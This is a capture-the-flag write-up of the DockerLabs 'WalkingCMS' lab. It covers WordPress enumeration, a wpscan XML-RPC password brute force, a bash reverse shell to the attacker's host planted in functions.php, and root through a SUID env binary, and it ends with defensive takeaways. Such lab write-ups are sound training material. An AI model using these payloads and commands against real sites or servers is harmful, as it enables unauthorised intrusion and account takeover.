







# WalkingCMS — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | WordPress, wpscan, XML-RPC brute force, PHP reverse shell, SUID env |

---

## 1. Reconnaissance

Port 80 was open running a WordPress site. Started with nmap to identify the service stack, then used gobuster for directory enumeration and wpscan for WordPress-specific enumeration.

```bash
nmap -sV -sC <IP>
gobuster dir -u http://<IP>/wordpress/ -w /usr/share/wordlists/dirb/common.txt
```



The gobuster scan confirmed WordPress was installed at `/wordpress/`. Key finding: **XML-RPC was enabled** at `/wordpress/xmlrpc.php`.

---

## 2. WordPress User Enumeration

wpscan can enumerate WordPress users via the REST API or author pages. Found user `mario`.

```bash
wpscan --url http://<IP>/wordpress/ -e u
```





**Why XML-RPC matters for brute force:** The XML-RPC interface allows calling `system.multicall`, which batches hundreds of login attempts into a single HTTP request. This bypasses rate limiting on the standard `wp-login.php` form and is orders of magnitude faster than attacking the login page directly.

---

## 3. Password Brute Force via XML-RPC

With user `mario` identified and XML-RPC available, ran a targeted brute force:

```bash
wpscan --url http://<IP>/wordpress/ \
  --password-attack xmlrpc \
  --passwords /usr/share/wordlists/rockyou.txt \
  --usernames mario
```



Credentials: `mario` : `love`

---

## 4. Reverse Shell via Theme Editor

Logged into `/wp-admin` with the recovered credentials. In the WordPress admin panel, navigated to **Appearance → Theme File Editor** and selected `functions.php` from the active theme.

Replaced the file contents with a PHP reverse shell:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<KALI-IP>/4444 0>&1'");
?>
```

Started a listener on port 4444, then triggered execution by visiting any page that loads `functions.php` (any WordPress page will do):

```bash
nc -lvnp 4444
```



Shell received as `www-data`.

---

## 5. Privilege Escalation — SUID env

Searched for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```



`/usr/bin/env` had the SUID bit set. `env` runs a program in a modified environment — with SUID, it executes as root. [GTFOBins](https://gtfobins.github.io/gtfobins/env/#suid) documents this exact escape:

```bash
/usr/bin/env /bin/sh -p
```



The `-p` flag preserves the effective UID (root) instead of dropping it.

---

## Key Takeaways

**XML-RPC in WordPress enables batch brute force.** If `xmlrpc.php` is accessible, a single HTTP request can test hundreds of passwords. Disable XML-RPC if not needed, or restrict it by IP.

**Theme file editor = PHP execution as the web server user.** WordPress admin access is effectively code execution. Protect admin accounts with strong passwords and 2FA.

**`/usr/bin/env` with SUID is an immediate root escalation.** It should never have the SUID bit set. Always check GTFOBins when you find a SUID binary on a non-standard path.
